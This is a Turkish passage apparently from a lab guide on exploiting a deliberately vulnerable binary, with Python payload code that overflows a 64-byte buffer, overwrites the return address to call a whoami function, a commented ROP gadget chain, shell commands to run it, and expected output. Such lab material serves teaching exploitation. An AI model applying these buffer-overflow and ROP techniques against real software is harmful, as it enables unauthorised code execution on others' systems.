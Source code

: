 ### 4. ROP Chain Oluşturma

#### Linux x86_64 için:
```python
# Buffer overflow (64 bytes) + Return address overwrite (8 bytes)
payload = b"A" * 72

# Basit ROP chain - sadece execute_whoami fonksiyonunu çağır
payload += p64(0x401220)        # execute_whoami fonksiyonu

# Alternatif: Gerçek ROP chain (gelişmiş)
# payload += p64(0x401383)        # pop rdi; ret
# payload += p64(0x0)             # rdi değeri
# payload += p64(0x40138c)        # pop rsi; ret  
# payload += p64(0x0)             # rsi değeri
# payload += p64(0x401395)        # pop rdx; ret
# payload += p64(0x0)             # rdx değeri
# payload += p64(0x40139e)        # syscall
# payload += p64(0x401220)        # execute_whoami fonksiyonu
```

#### macOS ARM64 için:
```python
# Buffer overflow (64 bytes) + Return address overwrite (8 bytes)
payload = b"A" * 72

# Basit ROP chain (ARM64 farklı)
payload += p64(whoami_addr)     # execute_whoami fonksiyonu
```

### 3. Exploit Çalıştırma

```bash
# Exploit'i çalıştır
python3 source_code/exploit.py

# Manuel test (Linux x86_64)
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00" | ./compiled/vulnerable_code

# ROPgadget ile gadget'ları bul
ROPgadget --binary compiled/vulnerable_code --ropchain

# Belirli gadget'ları ara
objdump -d compiled/vulnerable_code | grep -E "(pop rdi|pop rsi|pop rdx|syscall)"
```

### 4. Beklenen Sonuç

```
Shellcode Enjeksiyonu Basarili!
'whoami' komutu calistiriliyor...
[kullanici_adi]
Komut basariyla calistirildi!

ROP ile sistem komutu basariyla enjekte edildi!
```
